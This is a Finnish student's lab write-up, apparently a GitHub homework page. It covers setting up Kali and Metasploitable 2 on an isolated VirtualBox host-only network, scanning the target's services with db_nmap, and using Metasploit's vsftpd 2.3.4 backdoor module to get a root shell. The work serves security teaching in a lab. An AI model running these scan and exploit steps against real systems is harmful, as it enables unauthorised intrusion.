






# h1 OmaLabra 

2.4 7:15 

Virtualbox Host:
	OS: Debian GNU/Linux 11 (bullseye) x86_64 
	Host: Aspire A515-55G V1.08 

## a, b ja c
a) Asenna Kali virtuaalikoneeseen
b) Asenna Metasploitable 2 virtuaalikoneeseen
c) Tee koneille virtuaaliverkko, jossa  
    - Kali saa yhteyden Internettiin, mutta sen voi laittaa pois päältä
    - Kalin ja Metasploitablen välillä on host-only network, niin että porttiskannatessa ym. koneet on eristetty intenetistä, mutta ne saavat yhteyden toisiinsa

latasin [metasploitable](https://sourceforge.net/projects/metasploitable/) 2 ja [kali](https://www.kali.org/get-kali/#kali-installer-images) linuxin 

Virtualboxissa uusi virtuaalikone- nimi kali levykuvaksi juuri ladattu kali 2023.1 

laitoin kalin asentumaan taustalle ja jatkoin metasploitablen asennusta.

metasploitable2

new

Type: Linux
Version: Other Linux(64-bit)

Hard disk - Use an existing virtual ahrd disk file

file - tools - host only network manager
tein uuden host only network, laitoin sen metasploitable nat adapterin sijaan ja kaliin lisäsin toiseksi mahdollisuudeksi joten sillä pääsee tarvittaessa internettiin.

käynnistin metasploitablen, kirjauduin sisään msfadmin käyttäjälle ja ping komentoa käyttämällä tarkistin, että kone ei ollut netissä.
sen jälkeen ifconfig komennolla tarkistin laitteen ip osoitteen.

kun kali oli asentunut tein siitä virtualboxissa snapshotin joten toivottavasti voin välttää uudelleenasennuksen ongelmatilanteissa.

tarkistin kalissa network adapterien toimivuuden ping komennolla.    
host only networkissa komento `ping google.com` antaa:
	ping: google.com: Temporary failure in name resolution
	
ja nat:
	64 bytes from hem09s02-in-f14.1e100.net (216.58.209.174): icmp_seq=7 ttl=63 time=5.94 ms

pingasin metasploitable ip osoitetta kalista jolla sain varmistuksen että host only network toimii niin kuin pitää.

	ping 192.168.56.102
	PING 192.168.56.102 (192.168.56.102) 56(84) bytes of data.

	sudo msfdb run
	db_status

aloitin tutkimalla maalikoneen aukinaisia portteja, skannasin ne komennolla db_nmap -A 192.168.56.102

	services
	
	host            port  proto  name         state  info
	----            ----  -----  ----         -----  ----
	192.168.56.102  21    tcp    ftp          open   vsftpd 2.3.4
	192.168.56.102  22    tcp    ssh          open   OpenSSH 4.7p1 Debian 8ubuntu1 protocol 2.0
	192.168.56.102  23    tcp    telnet       open   Linux telnetd
	192.168.56.102  25    tcp    smtp         open   Postfix smtpd
	192.168.56.102  53    tcp    domain       open   ISC BIND 9.4.2
	192.168.56.102  80    tcp    http         open   Apache httpd 2.2.8 (Ubuntu) DAV/2
	192.168.56.102  111   tcp    rpcbind      open   2 RPC #100000
	192.168.56.102  139   tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP
	192.168.56.102  445   tcp    netbios-ssn  open   Samba smbd 3.0.20-Debian workgroup: WORKGROUP
	192.168.56.102  512   tcp    exec         open   netkit-rsh rexecd
	192.168.56.102  513   tcp    login        open   OpenBSD or Solaris rlogind
	192.168.56.102  514   tcp    shell        open   Netkit rshd
	192.168.56.102  1099  tcp    java-rmi     open   GNU Classpath grmiregistry
	192.168.56.102  1524  tcp    bindshell    open   Metasploitable root shell
	192.168.56.102  2049  tcp    nfs          open   2-4 RPC #100003
	192.168.56.102  2121  tcp    ftp          open   ProFTPD 1.3.1
	192.168.56.102  3306  tcp    mysql        open   MySQL 5.0.51a-3ubuntu5
	192.168.56.102  5432  tcp    postgresql   open   PostgreSQL DB 8.3.0 - 8.3.7
	192.168.56.102  5900  tcp    vnc          open   VNC protocol 3.3
	192.168.56.102  6000  tcp    x11          open   access denied
	192.168.56.102  6667  tcp    irc          open   UnrealIRCd
	192.168.56.102  8009  tcp    ajp13        open   Apache Jserv Protocol v1.3
	192.168.56.102  8180  tcp    http         open   Apache Tomcat/Coyote JSP engine 1.1
	
tiesin että vsftpd 2.3.4 sisältää backdoor exploitin koska kävimme sen läpi tunnilla, etsin siitä tiedot komennolla `search vsftpd 2.3.4`

  

valitsin exploitin käytettäväksi komennolla `use 0`

tutkin exploittia komennolla `info`

	
asetin RHOST muuttujan global arvon maalikoneen ip osoitteeksi komennolla `setg RHOSTS 192.168.56.102`  

ajoin exploitin komennolla `run`

sain maalikoneeseen terminaalin auki root oikeuksilla.
